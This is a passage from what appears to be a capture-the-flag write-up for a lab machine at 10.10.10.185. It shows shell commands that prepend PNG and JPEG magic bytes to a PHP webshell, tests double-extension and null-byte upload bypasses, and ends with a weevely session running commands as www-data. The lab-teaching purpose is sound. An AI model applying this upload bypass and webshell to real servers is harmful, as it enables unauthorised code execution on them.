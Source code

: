 ```
What are you trying to do there?
```

But changing the Content-Type from `application/x-php` to `application/x-php`
didn't change anything.

The name `Magic` is maybe because there is a magic bytes check and this message
is displayed when content type, extension and magic byte don't match.

Let's check the signature of jpeg and png:

```
$ xxd -l 12 ~/Pictures/hacker_logo.jpg     
00000000: ffd8 ffe0 0010 4a46 4946 0001            ......JFIF..
$ xxd -l 8 ~/Pictures/rawsec/logo5_50x40.png 
00000000: 8950 4e47 0d0a 1a0a                      .PNG....
```

We can also check
[the list on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
because jpeg supports 2 other signatures.

We can store the signatures in files:

```
$ echo -n "\x89\x50\x4e\x47\x0d\x0a\x1a\x0a" > png_signature
$ echo -n "\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01" > jpg_signature
```

Then let's try to prepend the PNG signature to the webshell.

```
$ cat png_signature agentnoraj.php > agent_png.png
$ cat jpg_signature agentnoraj.php > agent_jpg.jpg
```

Let's upload again, this time we are not spotted. The image is
successfully uploaded to http://10.10.10.185/images/uploads/agent_png.png but
as it is served as a png, the PHP is not interpreted.
Let's see if we send a png extension and a php Content-Type.

This is accepted too. But it is still served as a png. I'll try to put a php
extension but I think we will be caught by the extension whitelist.
Indeed we were spotted.

So let's try the double extension (`.png.php`) -> spotted.
Let's try a null byte injection (`.php\00.png`) even if I don't believe it will works.

It tells me `00.png` was uploaded (http://10.10.10.185/images/uploads/00.png)
but it's served as png. Let's see if `agent_png.php` was created
(http://10.10.10.185/images/uploads/agent_png.php): no.

What if we try the double extension without null byte but in the other way (`.php.png`).
It seems http://10.10.10.185/images/uploads/agent_png.php.png is interpreted as PHP!

## Webshell

```
$ weevely terminal http://10.10.10.185/images/uploads/agent_png.php.png noraj

[+] weevely 4.0.1

[+] Target:     10.10.10.185
[+] Session:    /home/noraj/.weevely/sessions/10.10.10.185/agent_png.php_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
